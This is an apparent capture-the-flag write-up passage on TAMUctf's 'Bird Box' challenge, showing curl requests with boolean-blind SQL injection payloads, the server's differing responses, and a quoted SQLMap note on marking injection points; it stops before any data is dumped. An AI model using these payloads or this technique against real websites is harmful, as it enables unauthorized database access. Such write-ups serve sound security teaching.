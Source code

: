 The description hinted strongly that we are searching for a boolean-blind SQL injection, so let's start by manually fuzzing the `Search` parameter.

After trying different payloads, the following input suddenly gave a different result:
```console
root@kali:/media/sf_CTFs/tamu/Bird_Box# curl -v "http://web2.tamuctf.com/Search.php?Search='or'1'='1"
*   Trying 34.208.211.186...
* TCP_NODELAY set
* Connected to web2.tamuctf.com (34.208.211.186) port 80 (#0)
> GET /Search.php?Search='or'1'='1 HTTP/1.1
> Host: web2.tamuctf.com
> User-Agent: curl/7.61.0
> Accept: */*
>
< HTTP/1.1 500 Internal Server Error
< Server: nginx/1.15.8
< Date: Tue, 12 Mar 2019 21:00:21 GMT
< Content-Type: text/html; charset=UTF-8
< Content-Length: 220
< Connection: keep-alive
<
* Connection #0 to host web2.tamuctf.com left intact
<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Nice try, nothing to see here.</h1></br><img src='Nice_Going!.gif'>
```

Again Error 500, but with a different error message: "Nice try, nothing to see here". 

Let's perform a sanity check and try with `'or'2'='1` instead of `'or'1'='1`:

```console
root@kali:/media/sf_CTFs/tamu/Bird_Box# curl "http://web2.tamuctf.com/Search.php?Search='or'2'='1"
<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Our search isn't THAT good...</h1></br><img src='Ehhh.png'>
```

Back to "Our search isn't THAT good" - so we have some kind of boolean condition here! A true statement gives us one error message, a false gives another.

Time to fire up SQLMap and automatically dump the DB. However, in this case, SQLMap was having trouble exploiting the vulnerability.

At first I thought that SQLMap just isn't finding the correct syntax needed for the exploit, so I tried helping it out with an idea based on something I read [here](http://pentestmonkey.net/blog/exploiting-a-tricky-sql-injection-with-sqlmap).

It turns out the SQLMap has a feature called "Arbitrary Injection Points":

> Similar to URI injection point, asterisk (*) can also be used to point to the arbitrary injection point inside GET, POST or HTTP headers. Injection point can be specified by marking it inside the GET parameter value(s) provided with option -u, POST parameter value(s) provided with option --data, HTTP header value(s) provided with options -H, --headers, --user-agent, --referer and/or --cookie, or at generic place inside HTTP request loaded from file with option -r.
